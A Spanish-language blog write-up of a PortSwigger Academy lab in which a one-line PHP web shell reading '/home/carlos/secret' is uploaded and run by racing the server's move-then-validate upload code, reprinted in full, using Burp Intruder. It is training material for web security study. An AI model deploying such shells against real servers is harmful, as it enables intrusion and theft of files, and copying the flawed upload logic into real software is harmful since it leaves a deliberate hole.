

+++
author = "Alux"
title = "Portswigger Academy Learning Path: File Upload Lab 8"
date = "2022-01-13"
description = "Lab: Web shell upload via race condition"
tags = [
    "file upload",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Web shell upload via race condition

En este <cite>laboratorio[^1]</cite>la finalidad es subir una shell al servidor para luego poder extraer o recuperar informacion de este. En este caso tenemos que leer el archivo `/home/carlos/secret`

## Reconocimiento

Cuando ingresamos con la cuenta de `wiener:peter` tenemos una opcion para subir archivos, en este caso el avatar del usuario.

## Explotacion

Creamos el archivo php con el siguiente codigo

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ahora se nos da el siguiente codigo para explicar que es lo que hace por atras el servidor y leyendolo entendemos que lo que hace es subir el archivo primero al servidor y ahi checarlo y validar, si es validado lo sube si no lo elimina, pero el principal problema es que se mantiene en el servidor por unos segundos el servicio. Por lo que nos podemos aprovechar de eso para explotarlo y subir directamente nuestro codigo php ya que hasta despues es validado.

```php
<?php
$target_dir = "avatars/";
$target_file = $target_dir . $_FILES["avatar"]["name"];

// temporary move
move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file);

if (checkViruses($target_file) && checkFileType($target_file)) {
    echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
    unlink($target_file);
    echo "Sorry, there was an error uploading your file.";
    http_response_code(403);
}

function checkViruses($fileName) {
    // checking for viruses
    ...
}

function checkFileType($fileName) {
    $imageFileType = strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
    if($imageFileType != "jpg" && $imageFileType != "png") {
        echo "Sorry, only JPG & PNG files are allowed\n";
        return false;
    } else {
        return true;
    }
}
?>
```
Ahora que sabemos esto, lo que intentearemos es subir el archivo al servidor, para aprovechar ese pequeno tiempo subido y obtener la key. Pero antes vamos a configurar intruder para realizar peticiones indefinidamente.


> Despues de este paso subimos nuestro codigo php y esperamos a que salga en nuestro ataque

Ahora lo ejecutamos y entre las respuestas podemos ver como se ejecuta el codigo php y se nos muestra la key, eso si por un corto tiempo.


Y con esto resolvimos el lab, pudiendo subir un archivo php que ejecuta acciones o comandos en el servidor.




[^1]: [Laboratorio](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)